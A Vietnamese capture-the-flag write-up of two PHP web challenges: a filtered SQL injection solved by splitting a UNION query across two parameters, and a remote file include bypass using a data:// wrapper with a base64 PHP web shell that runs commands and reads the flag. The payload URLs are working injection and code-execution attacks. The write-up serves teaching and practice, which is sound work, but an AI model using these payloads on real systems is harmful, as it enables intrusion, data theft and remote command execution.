 # Sqli v1

Đầu tiên ta có source code như sau :

![image](https://user-images.githubusercontent.com/57553555/161921922-f2f34a92-a905-4135-a102-2bdb77afe507.png)

## Phân tích 
- Ta nhận 2 đầu vào `amount` và `name` =>Tham số url `?amount=10000&name=tivi`
- Nó được gán vào 2 biến và được lọc bởi hàm `preg_match` 
- `amount` lọc tất cả các chữ cái , lọc `'` và `"`
- `name` lọc tất cả các kí tự như ```" , ',| ,` ```
- Câu lệnh truy vấn với
```php
$query = "select * from products where amount=".$amount." and name=\"".$name."\"";
echo $query;
=> select * from products where amount=10000 and name="tivi" 
```

## Kiểm tra lỗi
- Đầu tiên ta test tham số amount trước do nó là số nên không cần bypass `"` => Ta test thử payload 
```url
?amount=-1|| 1=1-- -&name=tivi
```
 
![image](https://user-images.githubusercontent.com/57553555/161927184-d14873a5-3678-4c45-aece-45b6c8c70cd1.png)

=> Bài này có lỗi sqli => Nhưng ở đây có vẻ không có flag => Ta phải tìm nó ở chỗ khác rồi

- Tiếp theo ta kiểm tra thử tham số name => Ta phải tìm cách bypass `"` nhằm thoát khỏi chuỗi và thực thi câu lệnh => Ta liên tưởng đến 1 cách là dùng `\`

![image](https://user-images.githubusercontent.com/57553555/161928329-2a166f52-4abf-465b-b834-0e40aa4a79f1.png)

=> Nhưng tham số amount không có `"` rồi @@ mà nó cũng filter mất `"` có thể dùng rồi => Fail ~~~~~~

![image](https://user-images.githubusercontent.com/57553555/161931471-a3e4d7e1-ffd8-4c74-95cb-3bcddc332715.png)

`/vuln.php?id=1 union/*&sort=*/select pass from users– – ` 

- Sau 1 hồi tìm kiếm khá lâu 1 phát hiện siu to đã xuất hiện =>Từ ví dụ trên nếu tham số `id` lọc select và tham số `sort` lọc union => thì khi ta tách truy vấn ra làm 2 => 1 bỏ vào id 1 bỏ vào sort và comment lại đầu vào của tham số trên url `&sort` => ta sẽ được 1 query hoàn chỉnh mà không hề bị lọc

- Áp dụng vào bài của mình => Payload => Thành công
```url
?amount=-1/*&name=*/ or 1=1-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934394-5376c895-9aeb-4b25-8d1e-b5be6e45d61a.png)

![image](https://user-images.githubusercontent.com/57553555/161934728-47c8fc84-f8df-490e-b5ca-5c6c6e325e4c.png)

- Tiếp theo đó ta tìm `database()` => Database : `sqlinjection`
```url
?amount=-1/*&name=*/ union select 1,database(),3-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934904-3645b836-6421-4f8f-92c2-c99331b0b2a2.png)

- Tên table_name => Vì `'` bị lọc nên ta chuyển tên database thành mã ascii  => Table_name : `flagtableahihihoho`
```url
?amount=-1/*&name=*/%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=CHAR(115,113,108,105,110,106,101,99,116,105,111,110)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161935680-25fc5355-3d6f-4767-8a05-f7e621d013e1.png)


- Tên column_name => Column_name : `flag`
```url
?
amount=-1/*&name=*/%20UNION%20select%201,CONCAT(COLUMN_NAME),TABLE_NAME%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=CHAR(102,108,97,103,116,97,98,108,101,97,104,105,104,105,104,111,104,111)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161936184-3463d04c-d291-4e2d-a59a-e4660096d81b.png)


-Và cuối cùng là flag 
```url
?amount=11 /*&name=*/ UNION select 1,flag,3 from flagtableahihihoho-- -sqlinjection.flagtableahihihoho
```
![image](https://user-images.githubusercontent.com/57553555/161936432-814665c2-362a-40f9-98b4-2803e9b5d186.png)

=> KCSC{flag_for_testing}



# child_orange 

Đầu tiên ta có source code :
![image](https://user-images.githubusercontent.com/57553555/162471087-15884ea2-f251-47a8-bd93-5a5c17857f8e.png)

## Phân tích :
- Đầu vào là tham số `/?url=` => và sau đó gán vào biến $url
- Do mình đọc hàm parse_url chưa ổn lắm nên đã var_dump() nó ra để xem (hàm mới thêm để debug code)
- Đầu tiên biến url được lọc bởi hàm filter_var() => Hàm sẽ kiểm tra url có hợp lệ hay không => Nếu không hợp lệ => Invalid url
- Tiếp theo $url sẽ được kiểm tra nếu trong biến url không có `http:` và `nhienit.kma:2010` => Invalid server
- Tiếp đến nó sẽ lọc 1 số các kí tự đặc biệt => Nếu trong biến url có thì => you are not orange 
- Sau đó nó lại kiểm tra xem khi hàm `parse_url` phân tích cú pháp url thì => host có khác `nhienit.kma` không hoặc port có khác `2010` không => Nếu khác thì => invalid host or port => Nếu giống thì tiếp lục lọc 2 tham số đầu vào là `user & pass` 
- Và cuối cùng nó sẽ chạy vào hàm include và thi hành biến $url 

=> Từ phân tích ta thấy được tham số url đầu vào sẽ bị lọc rất nhìu và yêu cầu bắt buộc host nhienit.kma và port 2010 => Có khi nào để tránh mình dùng localhost để khai thác SSRF không ta 
=> Và ở cuối ta để ý rằng sau khi kiểm tra hoàn tất thì nó sẽ đc thi hành bởi hàm include => Đây cũng là 1 dấu hiệu cho lỗ hổng file include + với trong file source code ta thấy thêm 1 file .htaccess => `php_flag allow_url_include on` => Cấu hình này cho phép truy xuất dữ liệu từ xa => Dẫn đến có thể được khai thác bởi lỗ hổng remote file include 

![image](https://user-images.githubusercontent.com/57553555/162566971-91ef1483-2b00-4587-a0a3-f0f801ee6b89.png)

##  Kiểm tra lỗi 
- Ý tưởng : Đầu tiên ta sẽ tìm cách bypass tất cả các filter => Sau đó khi đã vào đc hàm include => Ta sẽ khai thác rlf => Tìm flag

### Bypass 
- Để thõa mãn tất cả yêu cầu => thì tham số url sẽ là :
```url
http://localhost:10016/?url=http://nhienit.kma:2010/
```

![image](https://user-images.githubusercontent.com/57553555/162567312-ea4fd082-6099-4360-aca3-799b70b8fa10.png)

### RFI exploit 
- Để có thể khai thác RFI của trang => Ta sử dụng `data: wrapper` => Đây là 1 payload để khai thác [Nguồn](https://www.alak.cc/2011/03/self-contained-rfi-in-php.html)

![image](https://user-images.githubusercontent.com/57553555/162567600-d9be4e5c-88e4-4977-8319-1237bef57ea1.png)

- Ta test thử payload với url đã bypass ở trên : 
```url
http://localhost:10016/?url=http://nhienit.kma:2010/?file=data:;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=dir
```
![image](https://user-images.githubusercontent.com/57553555/162567726-74c00a21-4b87-455e-b267-daf4f3383bf6.png)

=> Nhưng nhìn kĩ lại có vẻ như `?` đã bị lọc => Và data wrapper vẫn còn 1 cách khai thác nữa là `data://text/plain;data...`

- Để có thể thông qua các filter thì url phải có `url=http://nhienit.kma:2010/` => và ta tìm cách thêm chèn `data://` => Và đây là payload : 

```url
http://localhost:10016/?url=data://nhienit.kma:2010/http://nhienit.kma:2010/;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=id
```

![image](https://user-images.githubusercontent.com/57553555/162568740-b2b0b2a0-d903-4aaf-8593-bf8cbd64517c.png)

=> Thành công thi hành shell code id => Tiếp theo là tìm flag trên server thôi 

### Khai thác
- Ta kiểm tra thư mục hiện tại bằng lệnh `pwd` 
```url
http://localhost:10016/?url=data://nhienit.kma:2010/http://nhienit.kma:2010/;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=&c=pwd
```
![image](https://user-images.githubusercontent.com/57553555/162568836-59c3500d-bc15-4e84-ab02-57d18b3d033d.png)

=> Có thể flag nằm ở file root => Ta kiểm tra thử `cat ../../../flag` => Flag 

![image](https://user-images.githubusercontent.com/57553555/162569002-963aa3c0-67bf-4c41-b891-7c277c00b205.png)

